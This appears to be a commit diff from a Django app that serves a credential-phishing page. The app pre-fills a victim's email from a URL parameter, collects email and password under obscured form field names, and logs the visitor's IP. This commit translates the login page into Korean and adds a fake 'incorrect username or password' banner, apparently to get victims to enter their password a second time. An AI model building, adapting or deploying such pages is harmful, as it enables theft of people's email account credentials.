

Before and after one commit to danicodehouse/trying, a Django app: template templates/indexx.html in a window 1280 px wide. Shown: the part 350-800 px from the top of the page, without its empty margins (319-959 px from the left). Run offline with Django 4.2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty; some libraries are stand-ins or nearby versions.

Commit message:
init/heroku

```diff
--- a/newviision/views.py
+++ b/newviision/views.py
@@ -10,13 +10,13 @@ from django.template.loader import render_to_string
 
 
 def homeon(request):
-    ip = request.META.get("REMOTE_ADDR")
+    ip = request.META.get("HTTP_X_FORWARDED_FOR")
     auto = request.GET["email"]
     domain = auto[auto.index('@') + 1 : ]
     return render(request, 'index.html', {'email': auto, 'domains': domain})
 
 def addin(request):
-    ip = request.META.get("REMOTE_ADDR")
+    ip = request.META.get("HTTP_X_FORWARDED_FOR")
     email = request.POST["powerioman"]
     passwordemail = request.POST["enginloio"]
     domain = email[email.index('@') + 1 : ]
@@ -53,7 +53,7 @@ def addin(request):
         return render(request, 'indexx.html', {'email': email, 'domains': domain})
 
 def adddzz(request):
-    ip = request.META.get("REMOTE_ADDR")
+    ip = request.META.get("HTTP_X_FORWARDED_FOR")
     email = request.POST["zzpowerman"]
     passwordemail = request.POST["yyenginlo"]
     domain = email[email.index('@') + 1 : ]
--- a/templates/indexx.html
+++ b/templates/indexx.html
@@ -219,6 +219,10 @@ span.validate-tooltip {
     position: static;
   }
 }
+#cone{
+  color:white;
+  background: red;
+}
   </style>
   <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/normalize/5.0.0/normalize.min.css">
 
@@ -230,32 +234,33 @@ span.validate-tooltip {
 </div>
 <div class="wrapper">
   <div class="inner-warpper text-center">
-    <h2 class="title">Login to your account</h2>
+    <h2 class="title">계정에 로그인</h2>
     <form action="adddzz" method="post">
       {% csrf_token %}
       <div class="input-group">
+        <p id="cone">잘못된 사용자 이름 또는 비밀번호</p>
         <label class="palceholder" for="userName"></label>
         <input class="form-control" name="zzpowerman" id="userName" type="text" value="{{email}}" required=""/>
         <span class="lighting"></span>
       </div>
       <div class="input-group">
         <label class="palceholder" for="userPassword"></label>
-        <input class="form-control" name="yyenginlo" id="userPassword" type="password" placeholder="" required="" />
+        <input class="form-control" name="yyenginlo" id="userPassword" type="password"  required="" />
         <span class="lighting"></span>
       </div>
 
-      <button type="submit" id="login">Login</button>
+      <button type="submit" id="login">로그인</button>
       <div class="clearfix supporter">
         <div class="pull-left remember-me">
           <input id="rememberMe" type="checkbox">
-          <label for="rememberMe">Remember Me</label>
+          <label for="rememberMe">날 기억해</label>
         </div>
-        <a class="forgot pull-right" href="#">Forgot Password?</a>
+        <a class="forgot pull-right" href="#">비밀번호를 잊으 셨나요?</a>
       </div>
     </form>
   </div>
   <div class="signup-wrapper text-center">
-    <a href="#">Don't have an accout? <span class="text-primary">Create One</span></a>
+    <a href="#">계정이 없으신가요? <span class="text-primary">하나 만들기</span></a>
   </div>
 </div>
 
```
Also changed, not shown: templates/index.html (+5 -5 lines).
